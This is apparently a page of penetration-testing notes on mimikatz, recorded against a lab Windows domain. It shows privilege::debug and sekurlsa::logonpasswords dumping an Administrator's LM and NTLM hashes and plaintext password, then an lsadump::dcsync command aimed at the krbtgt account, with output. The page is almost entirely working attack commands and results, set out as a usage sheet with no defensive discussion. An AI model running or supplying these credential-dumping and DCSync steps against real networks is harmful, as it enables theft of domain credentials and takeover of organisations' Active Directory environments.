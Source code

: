 	  .###.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
	 .# ^ #.  "A La Vie, A L'Amour" - (oe.eo)
	 # / \ #  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilki
	 # \ / #       > https://blog.gentilkiwi.com/mimikatz
	 '# v #'       Vincent LE TOUX             ( vincent.letoux@gm
	  '###'        > https://pingcastle.com / https://mysmartlogon

	mimikatz # privilege::debug
	Privilege '20' OK

	mimikatz # sekurlsa::logonpasswords

	Authentication Id : 0 ; 5990364 (00000000:005b67dc)
	Session           : CachedInteractive from 1
	User Name         : Administrator
	Domain            : VALHALLA
	Logon Server      : ODIN
	Logon Time        : 13.08.2021 11:47:21
	SID               : S-1-5-21-3410397846-649609989-2919355437-500
			msv :
			 [00000003] Primary
			 * Username : Administrator
			 * Domain   : VALHALLA
			 * LM       : 4fb7d301186e0eb3695109ab020e401c
			 * NTLM     : c718f548c75062ada93250db208d3178
			 * SHA1     : b27655136bebed1e53ded6cb9f837c450e7bb524
			tspkg :
			 * Username : Administrator
			 * Domain   : VALHALLA
			 * Password : Pass123!
			wdigest :
			 * Username : Administrator
			 * Domain   : VALHALLA
			 * Password : Pass123!
			kerberos :
			 * Username : Administrator
			 * Domain   : VALHALLA.LOCAL
			 * Password : Pass123!
			ssp :
			credman :
			
			
## mimikatz dcsync

authuser should be admin rights

	mimikatz # lsadump::dcsync /domain:valhalla.local /user:krbtgt /authuser:administrator /authpassword:Pass123!
	[DC] 'valhalla.local' will be the domain
	[DC] 'odin.valhalla.local' will be the DC server
	[DC] 'krbtgt' will be the user account
	[rpc] Service  : ldap
	[rpc] AuthnSvc : GSS_NEGOTIATE (9)
	[rpc] Username : administrator
	[rpc] Domain   :
	[rpc] Password : Pass123!

